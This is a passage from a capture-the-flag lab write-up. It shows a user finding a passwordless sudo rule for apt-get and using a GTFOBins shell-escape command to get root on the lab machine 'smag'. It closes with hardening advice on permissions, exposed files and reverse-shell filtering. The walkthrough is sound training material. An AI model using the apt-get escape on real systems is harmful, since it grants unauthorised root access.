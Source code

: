  * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$
```

We are now logged in as jake ! And we can now get the user.txt flag using ```cat user.txt```  
```
jake@smag:~$ cat user.txt 
********************************
```

## Final step : Privilege Escalation
Now, it's time to get root ! Remember, we found a file named ```.sudo_as_admin_successful```, that means that user jake has already used a command with sudo in the past, so maybe jake has the permission to use a command with sudo without a password. To see this , we use ```sudo -l``` :  
```
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

We see that user jake can use sudo apt-get, and so execute the apt-get command as root without any password ! Let's see on [GTFOBins](https://gtfobins.github.io/) if we can execute a shell by using apt-get.  
![](https://i.imgur.com/OQHoMBe.png)  

And yes we can ! By using ```sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh```.  
```
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami
root
```

And we have a root shell ! Now we can get the root flag with ```cat /root/root.txt```.  
```
# cat /root/root.txt
*******************************
```

## Conclusion
- Mails shouldn't be publicly accessible.
- There shouldn't be a publicly accessible pcap file.
- www-data user should'nt have write permissions on the file ```/opt/.backups/jake_id_rsa_pub.backup```. Maybe we can change the owner of the file with ```chown jake /opt/.backups/jake_id_rsa_pub.backup```and then, delete the write permission for other users than jake with ```chmod 600 /opt/.backups/jake_id_rsa_pub.backup```. So now only user jake can read or write to this file.
- Maybe we can filter commands on the website to avoid reverse shells

Thanks for reading my first write up !
